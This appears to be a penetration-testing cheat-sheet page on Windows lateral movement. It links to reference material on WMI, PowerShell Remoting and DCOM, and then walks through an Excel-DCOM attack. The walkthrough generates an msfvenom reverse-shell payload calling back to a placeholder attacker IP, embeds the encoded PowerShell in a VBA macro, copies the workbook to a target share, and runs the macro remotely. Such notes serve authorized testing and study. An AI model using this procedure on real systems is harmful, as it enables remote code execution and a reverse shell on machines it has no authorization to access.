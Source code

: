 # Lateral Movement

## Tools

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

## Kerberos

[Link](active-directory.md#kerberos)

## Windows Management Instrumentation (WMI)

* [https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
* [https://www.trustedsec.com/blog/no\_psexec\_needed/](https://www.trustedsec.com/blog/no\_psexec\_needed/)

## Powershell Remoting

* [https://www.netspi.com/blog/technical/network-penetration-testing/powershell-remoting-cheatsheet/](https://www.netspi.com/blog/technical/network-penetration-testing/powershell-remoting-cheatsheet/)
* [https://adamtheautomator.com/psremoting/](https://adamtheautomator.com/psremoting/)
* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands)
* [http://www.harmj0y.net/blog/empire/expanding-your-empire/](http://www.harmj0y.net/blog/empire/expanding-your-empire/)

## Distributed Component Object Model (DCOM)

* [https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-anddotnettojscript/](https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-anddotnettojscript/)
* [https://attactics.org/2018/02/03/lateral-movement-with-powerpoint-and-dcom/](https://attactics.org/2018/02/03/lateral-movement-with-powerpoint-and-dcom/)
* [https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

### Using Excel Macros

{% hint style="info" %}
Requires:

* Office installed on both source and target hosts
* Local admin privileges
{% endhint %}

Create a HTA reverse shell using msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=8080 -f hta-psh -o rshell.hta
```

Extract the encoded Powershell command:

```
powershell.exe -nop -w hidden -e aQBmACg...
```

Convert it to VBA format:

```
Sub mymacro()
    Dim Str As String
    Str = "powershell.exe -nop -w hidden -e aQBm..."
    Str = Str + "..."
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Call the macro on target host using Excel through DCOM:

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "target_ip"))
$LocalPath = "C:\excel.xls"
$RemotePath = "\\target_ip\c$\excel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\target_ip\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\excel.xls")
$com.Run("mymacro")
```
